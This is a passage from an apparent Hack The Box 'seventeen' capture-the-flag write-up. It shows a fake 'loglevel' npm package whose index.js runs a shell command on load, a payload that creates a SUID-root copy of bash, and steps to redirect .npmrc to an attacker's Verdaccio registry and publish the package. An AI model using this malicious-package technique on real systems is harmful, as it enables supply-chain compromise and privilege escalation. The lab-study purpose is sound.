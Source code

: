 Then create `index.js` file to run commands.

```javascript
const cp = require("child_process")

cp.exec("{command wanna use}");

function log(msg) {
    console.log(msg);
}

function debug(msg) {
    console.log(msg);
}

function warn(msg) {
    console.log(msg);
}

module.exports.log = log;
```

Simpler version is as follows;

```lua
require("child_process").exec("{command wanna use}");
```

I used the following payload the make rootbash.

```
cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash
```

Then, change the `.npmrc` registry.

```bash
kavi@seventeen:/opt/app$ cat ~/.npmrc
registry=http://10.10.14.15:4873/
```

I need to do `adduser` and `publish` as well.

```bash
┌──(kali㉿kali)-[~/htb/seventeen/Verdaccio/loglevel]
└─$ npm adduser --registry http://10.10.14.15:4873 --auth-type=legacy
npm notice Log in on http://10.10.14.15:4873/
Username: 0x7377
Password: 
Email: (this IS public) 0x7377@bokchee.com
Logged in on http://10.10.14.15:4873/.
```

I added `--auth-type=legacy` option to resolve error.

```bash
┌──(kali㉿kali)-[~/htb/seventeen/Verdaccio/loglevel]
└─$ npm publish --registry http://10.10.14.15:4873
npm notice 
npm notice 📦  loglevel@1.9.3
npm notice === Tarball Contents === 
npm notice 87B  index.js    
npm notice 204B package.json
npm notice === Tarball Details === 
npm notice name:          loglevel                                
npm notice version:       1.9.3                                   
npm notice filename:      loglevel-1.9.3.tgz                      
npm notice package size:  319 B                                   
npm notice unpacked size: 291 B                                   
npm notice shasum:        ea5259e86c5cb136657b8eac96b83c5683852aae
npm notice integrity:     sha512-4YnGcw4EBZ5Vy[...]yMFmvLzIqCBdw==
```
